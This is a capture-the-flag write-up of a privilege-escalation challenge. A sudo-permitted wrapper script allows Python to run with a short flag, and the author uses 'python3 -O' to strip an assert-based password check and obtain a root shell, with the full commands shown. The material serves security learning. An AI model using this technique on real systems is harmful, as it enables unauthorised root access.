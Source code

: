 After connecting to the challenge we can see that we have 3 files
`chall.py entrypoint.sh ynetd`
we can only read `chall.py`
```py
import os
import sys

x = input("Enter secret: ").strip()
try:
        assert(x == open("/root/password", 'r').read())
except AssertionError:
        print("GET OUT!!!!!!")
        exit()

os.system('/bin/bash')
```

looking at it the only unusual thing that we can see is the use of `assert` which is reaely used so we keep a mintal note of it


See what you can run with `sudo -l`

```sh
sudo -l
Matching Defaults entries for player on e478e8d1a810:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User player may run the following commands on e478e8d1a810:
    (ALL) NOPASSWD: /usr/local/bin/check.sh
```
we can run the command `sudo /usr/local/bin/check.sh` without the root password

read the `/usr/local/bin/check.sh` 

```sh
cat /usr/local/bin/check.sh
#!/bin/bash

ALLOWED="^[-A-Za-z0-9]{0,3}$"

if [[ $# == 2 && "$1" == "/usr/local/bin/python3" && "$2" == "/home/player/chall.py" ]]; then
  exec "$@"
elif [[ $# == 3 && "$1" == "/usr/local/bin/python3" && "$2" =~ $ALLOWED && "$3" == "/home/player/chall.py" ]]; then
  exec "$@"
else
  echo "Invalid command"
  exit 1
fi
```
we can sea that we have 2 options for runing the scrip `/home/player/chall.py`
1- running it without any options
`sudo /usr/local/bin/check.sh /usr/local/bin/python3 /home/player/chall.py` 
2- giving it an options that follows the regex `^[-A-Za-z0-9]{0,3}$` 


so i decided to do some googling and found this on [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#misc-python)
it seems that u can skip any assert check with the moption `-O`.

sol:
```sh
sudo /usr/local/bin/check.sh /usr/local/bin/python3 -O /home/player/chall.py
```

read the flag in root


